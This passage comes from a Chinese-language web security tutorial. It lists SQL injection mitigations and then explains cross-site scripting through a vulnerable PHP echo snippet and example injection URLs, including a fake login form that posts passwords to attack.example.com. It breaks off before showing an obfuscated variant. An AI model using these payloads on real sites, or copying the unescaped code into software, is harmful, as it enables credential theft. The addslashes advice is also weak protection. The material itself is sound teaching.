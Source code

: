 
* 更换危险字符。例如在PHP通过`addslashes()`函数保护SQL注入。


* 限制用户输入的长度，限制用户输入的取值范围。


* 为当前应用建立权限比较小的数据库用户，这样不会导致数据库管理员丢失。


* 把数据库操作封装成一个Service，对于敏感数据，对于每个客户端的IP，在一定时间内每次只返回一条记录。这样可以避免被拖库。


#### 


#### 跨网站脚本注 入


**跨网站脚本**（**Cross-site** scripting，通常简称为XSS或跨站脚本或跨站脚本攻击）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java， VBScript， ActiveX， Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。


假如我们有这样一段PHP的代码：



```
$username = $_GET['username'];
echo '<div> Welcome, ' . $username . '</div>';
```

那么我们可以这样来注入：


http://trustedSite.example.com/welcome.php?username=<Script Language=”Javascript”>alert(“You’ve been attacked!”);</Script>
甚至这样：


http://trustedSite.example.com/welcome.php?username=<div id=”stealPassword”>Please Login:<form name=”input” action=”http://attack.example.com/stealPassword.php” method=”post”>Username: <input type=”text” name=”username” /><br/>Password: <input type=”password” name=”password” /><input type=”submit” value=”Login” /></form></div>
这会让网页显示以下内容：



```
<div class="header"> Welcome,
    <div id="stealPassword">Please Login:
        <form name="input" action="attack.example.com/stealPassword.php" method="post">
            Username: <input type="text" name="username" />
            <br/>
            Password: <input type="password" name="password" />
            <input type="submit" value="Login" />
        </form>
    </div>
</div>

```

注入的代码还有可能变种为如下这种更为隐蔽的方式(unicode码)：
